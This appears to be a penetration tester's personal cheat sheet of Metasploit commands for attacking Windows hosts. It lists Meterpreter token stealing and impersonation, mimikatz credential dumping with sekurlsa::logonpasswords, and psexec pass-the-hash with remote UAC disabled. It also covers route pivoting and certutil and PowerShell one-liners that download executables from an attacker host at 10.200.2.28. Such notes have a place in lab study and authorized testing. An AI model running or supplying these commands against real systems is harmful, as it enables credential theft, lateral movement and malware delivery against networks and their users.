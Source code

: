 Powershell

		Load powershell
		powershell_execute ''
		powershell_shell to get interactive PSshell
	

General Notes

    download "\\192.168.11.46\c$\$Recycle.bin\S-1-5-21-651069647-3627985350-1882987256-1108\$ION3GRF.pdf" --> need to escape \ in meterpreter



meterpreter incognito

    Note that you need elevated privs to steal tokens. Getsystem first
	use incognito
	list_tokens -u will show delegation (interactive logon) and impersonation tokens
	impersonate_token WIN-ADSCPKABBT3\\jack
	migrate to a process owned by jack to work


meterpreter mimikatz (need elevated privs)

    load kiwi
	kiwi_cmd log --> log to mimikatz.log
	kiwi_cmd sekurlsa::logonpasswords - get all accounts which are logged on, which could include domain accounts
	

msf smb/psexec

    Note that firewall must allow SMB-In
	Can set smbpass to LM:NTLM hash
	Can set rhost to IP of target, (could be another machine in the domain)
	if target account is local admin, then need to disable remote UAC by setting LocalAccountTokenFilterPolicy to 1


msf route

	route add <ip>/24 <session id>
	route flush
	route print

	or use autoroute and set session <session id>	


Transfer file on Windows
- SCP
  
    Copy from local to remote. Remote must enable ssh. sudo service ssh start
	    
      scp string.txt kali@10.200.2.28:~

- Certutil to download file
	
      certutil.exe -urlcache -f http://10.200.2.28:8080/1234shi.exe svc.exe

- Powershell

      powershell -c "(New-Object System.Net.WebClient).Downloadfile('http://10.200.2.28:8080/1234.exe', '1234.exe')";
	    powershell -c "Invoke-WebRequest -Uri 'http://10.200.2.28:8000/1234.exe' -outfile c:\users\todd\downloads\1234.exe" doesnt work on older PS versions (win 7, win server 2012)
      